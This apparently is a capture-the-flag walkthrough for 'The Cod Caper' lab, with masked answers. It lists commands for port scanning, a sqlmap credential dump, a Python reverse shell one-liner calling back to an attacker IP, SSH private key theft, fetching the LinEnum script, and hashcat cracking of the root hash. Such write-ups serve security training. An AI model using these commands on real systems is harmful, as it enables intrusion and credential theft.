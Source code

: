# The Cod Caper

- Help me out! :)

	  no answer needed

- How many ports are open on the target machine?

	- `scilla port -target <TARGET_IP>`
	- `*`

- What is the http-title of the web server?

	- `nmap -A -p 80 <TARGET_IP>`
	- `Apache2 ******************`

- What version is the ssh service?

	- `nmap -A -p 22 <TARGET_IP>`
	- `*************************`

- What is the version of the web server?

	- `Apache/*.*.**`

- What is the name of the important file on the server?

	- `gobuster dir -u <TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/big.txt -x "php,txt"`
	- `a***********.***`

- What is the admin username?

	- `sqlmap -u http://<TARGET_IP>/**************.php --forms --dump`
	- `********`

- What is the admin password?

	- `**********`

- How many forms of SQLI is the form vulnerable to?

	- `*`

- How many files are in the current directory?

	- `ls`
	- `*`

- Do I still have an account

	- `***`

- What is my ssh password?

	- `nc -lvnp 1234`
	- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
	- `cd /home`
	- `cd pingu/.ssh`
	- `cat id_rsa`
	- Copy the private key
	- `chmod 600 id_rsa`
	- `ssh pingu@<TARGET_IP> -i id_rsa`
	- We need a pwd anyway.
	- `find / -name *pass* 2>/dev/null`
	- `cd ***/******/***`
	- SSH with password.
	- `***********`

- What is the interesting path of the interesting suid file

	- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `sudo python -m http.server`
	- `wget http://<YOUR_IP>:8000/LinEnum.sh`
	- `chmod +x LinEnum.sh`
	- `./LinENum.sh`
	- `/***/******/****`

- Read the above :)

	  no answer needed

- Woohoo!

	  no answer needed

- Even more woohoo!

	  no answer needed

- What is the root password!

	- Copy the root hash inside a file called `hash`
	- `hashcat -m 1800 hash --wordlist /usr/share/wordlists/rockyou.txt --force`
	- `****2****`

- You helped me out!

	  no answer needed

